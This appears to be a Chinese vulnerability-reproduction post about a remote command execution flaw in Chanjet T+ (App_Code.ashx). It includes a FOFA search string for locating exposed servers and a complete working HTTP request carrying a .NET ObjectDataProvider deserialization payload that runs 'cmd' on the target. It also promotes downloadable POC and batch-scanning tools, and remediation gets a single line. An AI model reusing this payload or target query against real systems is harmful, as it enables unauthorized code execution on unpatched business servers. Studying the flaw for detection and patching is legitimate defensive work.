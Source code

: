 #  畅捷通TPlus App_Code.ashx存在远程命令执行漏洞   
南风漏洞复现文库  南风漏洞复现文库   2024-04-08 23:40  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 畅捷通TPlus App_Code.ashx简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
畅捷通T+专属云适用于需要一体化管理的企业，财务管理、业务管理、零售管理、生产管理、物流管理、移动仓管、营销管理、委外加工等人财货客一体化管理。  
## 2.漏洞描述  
  
畅捷通T+专属云适用于需要一体化管理的企业，财务管理、业务管理、零售管理、生产管理、物流管理、移动仓管、营销管理、委外加工等人财货客一体化管理。畅捷通TPlus App_Code.ashx存在远程命令执行漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
畅捷通T+  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLYibhqYAakVT1aZEYiaDOgE5ZoRDvH5zaxW8OicCqYka1iblqg3LgbnOAajA/640?wx_fmt=jpeg&from=appmsg "null")  
  
畅捷通TPlus App_Code.ashx存在远程命令执行漏洞  
## 4.fofa查询语句  
  
app="畅捷通-TPlus"  
## 5.漏洞复现  
  
漏洞链接：https://127.0.0.1/tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore  
  
漏洞数据包：  
```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Host: 127.0.0.1
X-Ajaxpro-Method: GetStoreWarehouseByStore
Content-Type: application/x-www-form-urlencoded
Content-Length: 570

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
      "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
      "StartInfo":{
        "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "FileName":"cmd",
        "Arguments":"/c whoami > test1.txt"
      }
    }
  }
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLYN4MNS4aWiaIzaDPb73XRfCkSibiaviapbkhQmSmuF34IYhU90MtOlPHibLA/640?wx_fmt=jpeg&from=appmsg "null")  
  
上传文件链接：http://127.0.0.1/tplus/test1.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLYckxcDiaKUcQUUVY87aJuYxhZrTVWgicGqkFZOe3Okop1j3mD07RYrDRg/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现121 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLYNYNlZ043gDj3j0afvAwicCliaX5ibIX5giaYickPIyWY1pMuTBdZk3HvAWQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLYbvyBnAwdQpkticaEnE2ngERx25HiaUw9l8xoCURZ0XuficZ9H0mLZWOBw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLYtKYZ4Foo0Th0nCIXWlF2XZMz5cQWQGb69lauxunS1Itgn3ZS7Lyp3A/640?wx_fmt=jpeg&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLYlQFaFOTOw82kD4aBJicXKdKh4B9m53ey6ibU6IDF1PUkOcWIMgj6ND7Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLYGBW6dbnxxDfLg0tehSTsSXicm8iaSKasXbD8bwGFzeggWoKXwib9UYPYg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLYt9cWynBwgn9VEvz85G55z8pibgUTwP5B13uq9R6Kn7icaJ5FGGvnr8BA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLY7XvP8sFRxVl0iafzYjSw58ROmYpNzkkvNoecicYGVliaAbwypbjjNkm5g/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
目前厂商尚未提供相关漏洞补丁链接，请关注厂商主页及时更新： https://www.chanjet.com/  
## 8.往期回顾  
  
[畅捷通TPlus KeyInfoList.aspx存在SQL注入漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486062&idx=2&sn=734033609e43c27806a2754a4c12a4ef&chksm=974b8769a03c0e7fe12e9dbedd78f5e19804367e6a38f1e6dea528444b70aad476ef119f7f3e&scene=21#wechat_redirect)  
  
  
[用友U9 PatchFile.asmx接口存在任意文件上传漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486033&idx=1&sn=9871ceeb9777fa646c0de20494af9e69&chksm=974b8756a03c0e401f267c15fd34df9f3ca2bd3a10b87efc707df3b4677f60157207c8c72178&scene=21#wechat_redirect)  
  
  
  
  
